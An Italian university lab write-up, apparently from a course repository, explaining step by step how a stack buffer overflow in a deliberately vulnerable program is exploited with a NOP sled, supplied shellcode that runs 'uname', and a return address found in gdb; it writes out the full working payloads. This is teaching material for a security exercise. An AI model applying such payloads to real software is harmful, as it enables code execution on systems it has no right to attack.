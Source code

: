 # Shellcode

## Consegna

```
Esercizio simile a quello svolto in aula.

Il programma vulnerabile è shellcode

Eseguire l'esercizio in due modi:

1. usando lo stesso shellcode utilizzato durante l'esercitazione in laboratorio
2. usando lo shellcode fornito qui
consegnare un file report.pdf che contenga:

- Payload e screenshot che dimostra la capacità di sovrascrivere l'indirizzo di ritorno
- Payload e screenshot dell'exploit finale lanciato
- Spiegazione dettagliata di come si è proceduto ad analizzare ed exploitare la vulnerabilità
```

## Soluzione

Ok preparatevi perché il processo di questo è molto lungo. 

Prima di tutto, il procedimento è lo stesso per i due shellcode. `shellcode_1.txt` è il file che abbiamo usato in classe, mentre `shellcode_casa_uname.txt` è quello dell'esercizio, che userò anche qui.

Allora, prima di tutto, ancora una volta ci tocca trovare il numero di caratteri per cui otteniamo un SegFault, e dobbiamo fare in modo che questo segfault sia causato da un indirizzo che "possiamo controllare".

Dunque, per fare ciò, ci comportiamo esattamente come per l'esercizio secret_function, e procediamo per prova ed errore. 
Inizialmente il mio payload era `$(perl -e 'print "A"xN, "BBBB"')`, e vogliamo fare in modo che gdb ci mostri, nell'indirizzo di ritorno che ha causato il SIGSEV, `0x42424242` (che sarebbe la codifica in byte di BBBB). 

Dopo vari tentativi, noteremo che questo valore è appunto N=1512. 

Bene, adesso allora dovremo fare delle altre cose. 
Prima di tutto, cambiamo il valore di "A" con dei byte NOOP, che vengono ignorati quando eseguiti. Otterremmo così `$(perl -e 'print "\x90"x1512, "BBBB"')`.
Dopodiché, prendiamo il codice di shellcode che ci viene fornito, e ne misuriamo la lunghezza con la funzione `len` del compilatore JIT di python3.  
```bash
$ python3 
>>> len(b'\xbf\x16\x6e\x8a\x7c\xdd\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0c\x31\x7a\x12\x03\x7a\x12\x83\xd4\x6a\x68\x89\xb2\x79\x34\xeb\x10\x18\xac\x26\xf7\x6d\xcb\x51\xd8\x1e\x7c\xa2\x4e\xce\x1e\xcb\xe0\x99\x3c\x59\x14\x90\xc2\x5e\xe4\xd6\xac\x3f\x89\x7d\x11\xed\x30\x7e\x06\xbe\x3b\x9f\x65\xc0')
```

Il codice ci ritornerà 71. 
Dunque, dobbiamo ricalcolare il payload in modo che "faccia spazio" alla shellcode. Otterremo così:
```
$(perl -e 'print "\x90"x(1512-71),"\xbf\x16\x6e\x8a\x7c\xdd\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0c\x31\x7a\x12\x03\x7a\x12\x83\xd4\x6a\x68\x89\xb2\x79\x34\xeb\x10\x18\xac\x26\xf7\x6d\xcb\x51\xd8\x1e\x7c\xa2\x4e\xce\x1e\xcb\xe0\x99\x3c\x59\x14\x90\xc2\x5e\xe4\xd6\xac\x3f\x89\x7d\x11\xed\x30\x7e\x06\xbe\x3b\x9f\x65\xc0", "BBBB"')
```

Abbiamo ancora una cosa da fare, ovvero ottenere l'indirizzo di ritorno. 
Per farlo, consiglio prima di tutto di riavviare gdb salvando il payload attuale da qualche parte, poi contrallare quale sia il nome della funzione vulnerabile che viene chiamata attraverso il comando `info functions` (nel nostro caso la funzione vulnerabile si chiama `vuln`), e poi inserire un breakpoint in gdb con il comando `b *vuln`. A questo punto, riavviamo il programma con il payload, e andiamo ad esplorare lo stack, in particolare 600 byte di esso. 
Appena gdb ci avvisa che abbiamo raggiunto il breakpoint, usiamo il comando `x/600xw $esp`, che indica che andiamo a vedere 600 byte partendo dallo stack pointer. Andiamo a vedere lo stack (in caso gdb non mostri tutto, inviare il comando `c` per fare in modo che stampi anche il resto), e poi andiamo a rilevare l'indirizzo in cui abbiamo in cui la shellcode inizia (ovvero, in cui smettono di esserci dei byte 90 ed inizia il codice della shellcode). Questo indirizzo è nella colonna a destra della stessa riga (solitamente di un colore diverso). 
A questo punto, lo salviamo da qualche parte, e riscriviamo il payload con il nuovo indirizzo di ritorno, che nel nostro caso è `0xffffd4dc` (che dovremo riscrivere nel payload in senso contrario causa little endianess).
Dunque, il payload finale sarà:
```
$(perl -e 'print "\x90"x(1512-71),"\xbf\x16\x6e\x8a\x7c\xdd\xc3\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x0c\x31\x7a\x12\x03\x7a\x12\x83\xd4\x6a\x68\x89\xb2\x79\x34\xeb\x10\x18\xac\x26\xf7\x6d\xcb\x51\xd8\x1e\x7c\xa2\x4e\xce\x1e\xcb\xe0\x99\x3c\x59\x14\x90\xc2\x5e\xe4\xd6\xac\x3f\x89\x7d\x11\xed\x30\x7e\x06\xbe\x3b\x9f\x65\xc0", "\xdc\xd4\xff\xff"')
```

Se tutto va bene, il programma stampa l'output del comando `uname`.

PS: In realtà possiamo anche skippare la parte in cui mettiamo il breakpoint, e controllare lo stack subito dopo che avviene il segfault.  

_WARNING_: Quando gdb ritorna come errore "File too long", e non ti riesci a spiegare perché, semplicemente salvati il payload, riavvia gdb e riscrivilo.  